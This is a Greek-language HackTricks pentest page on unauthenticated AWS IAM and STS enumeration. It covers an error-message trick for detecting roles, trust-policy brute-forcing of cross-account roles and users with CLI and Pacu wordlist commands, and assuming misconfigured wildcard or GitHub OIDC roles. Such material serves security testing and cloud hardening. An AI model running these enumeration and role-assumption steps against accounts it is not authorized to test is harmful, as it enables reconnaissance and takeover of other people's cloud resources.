 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Καταγραφή Ρόλων & Ονομάτων Χρηστών σε έναν λογαριασμό

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**Αυτή η τεχνική δεν λειτουργεί** πια καθώς αν ο ρόλος υπάρχει ή όχι, πάντα λαμβάνετε αυτό το σφάλμα:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Μπορείτε να **δοκιμάσετε αυτό εκτελώντας**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Η προσπάθεια **ανάληψης ενός ρόλου χωρίς τις απαραίτητες άδειες** προκαλεί ένα μήνυμα σφάλματος από το AWS. Για παράδειγμα, αν δεν έχετε άδεια, το AWS μπορεί να επιστρέψει:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Αυτό το μήνυμα επιβεβαιώνει την ύπαρξη του ρόλου αλλά υποδεικνύει ότι η πολιτική ανάληψης ρόλου δεν επιτρέπει την ανάληψή σας. Αντίθετα, η προσπάθεια να **αναλάβετε έναν ανύπαρκτο ρόλο οδηγεί σε διαφορετικό σφάλμα**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Αξιοσημείωτο είναι ότι αυτή η μέθοδος του **να διακρίνουμε μεταξύ υπαρχόντων και μη υπαρχόντων ρόλων** είναι εφαρμόσιμη ακόμη και σε διαφορετικούς λογαριασμούς AWS. Με ένα έγκυρο AWS account ID και μια στοχευμένη λίστα λέξεων, μπορεί κανείς να καταγράψει τους ρόλους που υπάρχουν στον λογαριασμό χωρίς να αντιμετωπίσει εγγενείς περιορισμούς.

Μπορείτε να χρησιμοποιήσετε αυτό το [script για να καταγράψετε πιθανούς principals](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) εκμεταλλευόμενοι αυτό το ζήτημα.

### Πολιτικές Εμπιστοσύνης: Brute-Force Ρόλοι και χρήστες Διαφορετικών Λογαριασμών

Η ρύθμιση ή η ενημέρωση μιας **πολιτικής εμπιστοσύνης IAM ρόλου περιλαμβάνει τον καθορισμό ποιες AWS πόροι ή υπηρεσίες επιτρέπεται να αναλάβουν αυτόν τον ρόλο** και να αποκτήσουν προσωρινές διαπιστεύσεις. Εάν ο καθορισμένος πόρος στην πολιτική **υπάρχει**, η πολιτική εμπιστοσύνης αποθηκεύεται **επιτυχώς**. Ωστόσο, εάν ο πόρος **δεν υπάρχει**, δημιουργείται ένα **σφάλμα**, υποδεικνύοντας ότι παρέχεται ένας μη έγκυρος principal.

{% hint style="warning" %}
Σημειώστε ότι σε αυτόν τον πόρο μπορείτε να καθορίσετε έναν ρόλο ή χρήστη διαφοράς λογαριασμού:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Αυτή είναι ένα παράδειγμα πολιτικής:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Αυτό είναι το **σφάλμα** που θα βρείτε αν χρησιμοποιήσετε έναν **ρόλο που δεν υπάρχει**. Αν ο ρόλος **υπάρχει**, η πολιτική θα **αποθηκευτεί** χωρίς κανένα σφάλμα. (Το σφάλμα είναι για ενημέρωση, αλλά λειτουργεί επίσης κατά τη δημιουργία)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Μπορείτε να αυτοματοποιήσετε αυτή τη διαδικασία με [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Χρησιμοποιώντας [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Ο ρόλος `admin` που χρησιμοποιείται στο παράδειγμα είναι ένας **ρόλος στον λογαριασμό σας που μπορεί να μιμηθεί** από το pacu για να δημιουργήσει τις πολιτικές που χρειάζεται να δημιουργήσει για την καταμέτρηση

### Privesc

Σε περίπτωση που ο ρόλος έχει ρυθμιστεί λανθασμένα και επιτρέπει σε οποιονδήποτε να τον αναλάβει:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Ο επιτιθέμενος θα μπορούσε απλώς να το υποθέσει.

## Ομοσπονδία OIDC Τρίτων

Φανταστείτε ότι καταφέρατε να διαβάσετε μια **ροή εργασίας Github Actions** που έχει πρόσβαση σε έναν **ρόλο** μέσα στο **AWS**.\
Αυτή η εμπιστοσύνη μπορεί να δώσει πρόσβαση σε έναν ρόλο με την ακόλουθη **πολιτική εμπιστοσύνης**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Αυτή η πολιτική εμπιστοσύνης μπορεί να είναι σωστή, αλλά η **έλλειψη περισσότερων συνθηκών** θα πρέπει να σας κάνει να την αμφισβητήσετε.\
Αυτό συμβαίνει επειδή ο προηγούμενος ρόλος μπορεί να αναληφθεί από **ΟΠΟΙΟΝΔΗΠΟΤΕ από το Github Actions**! Θα πρέπει να καθορίσετε στις συνθήκες και άλλα πράγματα όπως το όνομα του οργανισμού, το όνομα του αποθετηρίου, το περιβάλλον, το κλάδο...

Μια άλλη πιθανή κακή ρύθμιση είναι να **προσθέσετε μια συνθήκη** όπως η παρακάτω:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Σημειώστε ότι το **wildcard** (\*) πριν από τον **κολονάκι** (:). Μπορείτε να δημιουργήσετε έναν οργανισμό όπως **org\_name1** και να **αναλάβετε τον ρόλο** από μια ενέργεια Github.

## Αναφορές

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
